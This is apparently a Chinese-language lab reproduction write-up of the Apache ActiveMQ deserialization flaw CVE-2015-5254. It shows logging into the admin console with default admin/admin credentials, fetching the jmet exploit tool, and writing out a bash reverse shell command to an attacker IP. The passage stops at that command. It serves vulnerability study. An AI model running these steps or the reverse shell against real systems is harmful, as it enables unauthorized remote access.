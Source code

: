 #  【漏洞复现】ActiveMQ中间件漏洞  
 天黑说嘿话   2025-06-22 03:09  
  
ActiveMQ 反序列化漏洞（CVE-2015-5254）  
  
Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。  
  
Apache ActiveMQ   
5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。  
  
  
漏洞影响范围：  
  
Apache ActiveMQ 5.13.0之前5.x版本  
  
  
  
漏洞复现  
  
环境运行后，将监听61616和8161两个端口。其中61616是ActiveMQ工作端口，消息在这个端口进行传递；  
  
8161是ActiveMQ的Web管理页面端口。访问http://ip:8161即可看到web管理页面。  
  
  
http://10.22.221.151:8161/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZGFc3Q4FsWpHWr2ibKEKn9JhPSoiczUW8dZkMwd8UKSVh9md7zrnFJiavg/640?wx_fmt=png&from=appmsg "")  
  
  
访问端口61616，是这样的消息提示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZSb9lR38jAW3DKUw1EZlYYfj9MzMNjbeKQS5S8BaLlSpXeNNdatXibiaA/640?wx_fmt=png&from=appmsg "")  
  
  
拼接admin，访问后台管理  
  
http://10.22.221.151:8161/admin/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZNYC608czqOjcfv3OiaiaZG1n1hKnDSwYMkDxG0soygKWMwEXvqFTsPibQ/640?wx_fmt=png&from=appmsg "")  
  
  
使用弱口令admin/admin，成功登录后台  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZicIdFMKyUgVibPyEUYpM1icLWVYJr2OiakagunMpYFWdsPd0OiaRoARLoJw/640?wx_fmt=png&from=appmsg "")  
  
  
确定版本5.11.1在5.13.0之前的5.x漏洞范围之内  
  
  
下载工具  
```
https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
```  
  
  
查看本机的IP  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZFpBot2rUX9dYlere6xKpMqKILX0cbqN1OhjibpbQq089W157XDoz7ow/640?wx_fmt=png&from=appmsg "")  
  
  
替换为自己的IP，构造反弹shell语句  
```
bash -i >& /dev/tcp/10.132.0.76/1234 0>&1
```  
  